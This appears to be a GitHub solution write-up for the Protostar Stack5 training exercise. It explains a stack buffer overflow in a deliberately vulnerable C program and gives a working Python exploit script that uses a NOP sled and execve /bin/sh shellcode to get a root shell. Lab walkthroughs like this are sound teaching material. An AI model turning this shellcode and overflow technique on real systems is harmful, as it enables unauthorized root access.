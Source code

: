 # Stack5 Solution

## C Code

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Vulnerability

Ok, so now we have some *very* minimal C code with just a `char buffer[64]` and `get(buffer)`. From this, we need to get a **root shell**.
You may be thinking, *how do we do that*. The answer lies in **executing shellcode put on the stack** by abusing `gets()`. Let me explain.

You know how we can **edit the stack** by using a **buffer overflow**? We can also **put values on the stack** and if **EIP points to it**,
the stack value(s) *will* **execute**. This is preventable by using a system called **NX**, which stands no **No-Execution**. This system
**prevents stack values from being executed**, which is useful to prevent this style of attack.

Now that we know that **the stack is executable**, can we **put shellcode on the stack, then execute** it by **overwriting the return
address to point to that shellcode**? **Yes, we can**! So let's do it!

First, we need to **make sure that the shellcode is always executed**. To do that, we use something called a **NOP sled**. A `nop`
instruction basically just **moves to the next instruction**. So we can place a **bunch of NOPs above our shellcode** (shellcode is the code
needed to create a shell) and then we basically have some **room for error**, since we could return **anywhere inside of the NOP sled** and
still execute our shellcode.

**So let's exploit!**

## Exploit

First, let's **reuse** the **padding** from [stack4](https://github.com/Naksh-Rathore/protostar-solutions/tree/main/stack4/) so we do not have to check what the padding is *again*.

We first need the **return address's** memory address to use as a estimate of the NOP sled address.

```bash
(gdb) break *main+22
(gdb) r
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

SIGSEV - Segmentation Fault
```

Now, since **the next thing on the stack is the memory address, let's get ESP**, since that will point to the return address.

```bash
(gdb) p $esp
$1 = (void *) 0xbffff7d0
```

Now that we know **the memory address** of the return address, we can make the return address point to **it's memory address + ~30 bytes** to reach the middle of the NOP sled.

But now we need **shellcode**. Let's use the **32 bit execve** `/bin/sh` **shellcode** from **ShellStorm**. I have linked it in the resources section. 

Here is our **payload layout**:

```
[ 72 bytes of padding ]
[ 4 bytes to overwrite EBP ]
[ 4 bytes to overwrite return address ]
[ NOP sled containing 100 NOPs ]
[ Shellcode ]
```

Ok, so let's build the exploit script:

```python
import struct

padding = "A" * 72
ebp = "LLLL"
ret_addr = struct.pack("I", 0xbffff7d0 + 30)
shellcode = (
        "\x31\xc0\x50\x68\x2f\x2f\x73"
        "\x68\x68\x2f\x62\x69\x6e\x89"
        "\xe3\x89\xc1\x89\xc2\xb0\x0b"
        "\xcd\x80\x31\xc0\x40\xcd\x80"
)
nop_sled = "\x90" * 100

print(padding + ebp + ret_addr + nop_sled + shellcode)
```

To **properly run**, we need to redirect the stdin to stdout with the `cat` command.

Result:

```bash
$ (python /tmp/exploit.py; cat) | /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALLLL????????????????????????????????????????????????????????????????????????????????????????????????????????1?Ph//shh/bin????°
                                      ̀1?@̀

whoami
root
```

## Resources

* [C Code](https://exploit.education/protostar/stack-five/)
* [/bin/sh ShellCode from ShellStorm](https://shell-storm.org/shellcode/files/shellcode-811.html)
* [LiveOverflow's Solution on YouTube](https://www.youtube.com/watch?v=HSlhY4Uy8SA)
* [Wikipedia Article on the NX Bit](https://en.wikipedia.org/wiki/NX_bit)



